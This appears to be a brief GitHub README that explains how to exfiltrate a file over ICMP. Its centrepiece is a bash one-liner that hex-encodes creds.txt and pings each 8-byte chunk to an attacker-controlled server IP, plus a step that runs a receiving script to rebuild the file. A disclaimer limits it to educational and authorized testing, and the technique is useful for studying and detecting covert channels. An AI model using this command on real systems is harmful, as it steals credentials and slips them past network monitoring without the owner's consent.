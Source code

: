 # Data Exfiltration via ICMP

Step 1 )> Run the following command on the client server from linux command line:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />

# Here, we are reading the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />

Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.

